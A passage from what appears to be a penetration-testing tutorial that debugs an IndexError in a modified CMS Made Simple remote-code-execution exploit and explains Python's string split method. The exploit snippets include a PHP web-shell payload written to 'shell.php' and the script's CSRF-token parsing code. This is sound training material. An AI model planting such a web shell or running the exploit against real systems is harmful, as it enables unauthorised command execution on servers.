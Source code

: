 Results in IndexError

```
 File "44976_modified.py", line 24, in parse_csrf_token
    return location.split(csrf_param + "=")[1]
IndexError: list index out of range
```

##### Troubleshooting "Index Out of Range" Error

Split method used to slice string in location parameter passed to _parse_csrf_token_ function.

Split slices input string using optional separator and stores string slices in a list.

Python string split method

```python
kali@kali:~$ python
...
>>> mystr = "Kali*-*Linux*-*Rocks"

>>> result = mystr.split("*-*")

>>> result
['Kali', 'Linux', 'Rocks']

>>> result[1]
'Linux'
```

In our exploit code, the string separator is defined as the _csrf_param_variable ("__c") followed by the equals sign.

```hlt:1,7
csrf_param = "__c"
txt_filename = 'cmsmsrce.txt'
php_filename = 'shell.php'
payload = "<?php system($_GET['cmd']);?>"

def parse_csrf_token(location):
    return location.split(csrf_param + "=")[1]
```

Add print statement in _parse_csrf_token_ function. 

```hlt:7
csrf_param = "__c"
txt_filename = 'cmsmsrce.txt'
php_filename = 'shell.php'
payload = "<?php system($_GET['cmd']);?>"

def parse_csrf_token(location):
    print "[+] String that is being split: " + location
    return location.split(csrf_param + "=")[1]
```

The exploit now displays the full string before the split method is invoked.
